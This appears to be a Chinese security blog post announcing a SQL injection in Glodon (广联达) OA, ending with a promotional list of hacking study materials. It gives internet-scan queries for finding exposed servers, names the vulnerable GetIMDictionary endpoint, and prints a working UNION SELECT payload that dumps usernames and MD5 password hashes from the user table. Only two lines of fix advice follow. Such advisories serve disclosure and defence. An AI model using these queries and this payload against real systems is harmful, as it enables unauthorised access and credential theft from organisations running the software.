 # 原创
：  漏洞通告| 广联达OA SQL注入漏洞获取用户名密码

# 漏洞通告| 广联达OA SQL注入漏洞获取用户名密码

### 广联达OA介绍

广联达办公OA是一款综合办公自动化解决方案，旨在提高组织内部的工作效率和协作能力。它提供了一系列功能和工具，帮助企业管理和处理日常办公任务、流程和文档。

### 资产收集

fofa：fid=”/yV4r5PdARKT4jaqLjJYqw==”或者body=”/Services/Identification/Server”<br/> hunter：web.body=”/Services/Identification/Server/“

### 漏洞点

广联达OA SQL注入漏洞位于 /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary 接口下，直接访问，页面会提示缺少参数key，说明存在SQL注入

### 漏洞复现

payload：

```
key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --

```

效果如下：

### 修复建议

1.问/Webservice/IM/Config/ConfigService.asmx/GetIMDictionary 地址的时候，可以让报错信息模糊化<br/> 2.对key参数的传参进行过滤

 申明：本账号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法。

###### **免费领取安全学习资料包！**<img alt="" height="768" src="https://img-blog.csdnimg.cn/direct/2f74894cf8e04b7f87d9716681f6e26b.png" width="1024"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/direct/5b4209eac3784bd18f5e1cd6a5157e4e.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/direct/4a89b0c2a52a4f569a970e55dcbac0b4.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/direct/4f211474c8ab4a5a910884e1d3423310.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/direct/54c2816350ae4bf787d1c6eec0d4e837.png" width="665"/>

应急响应笔记

学习路线
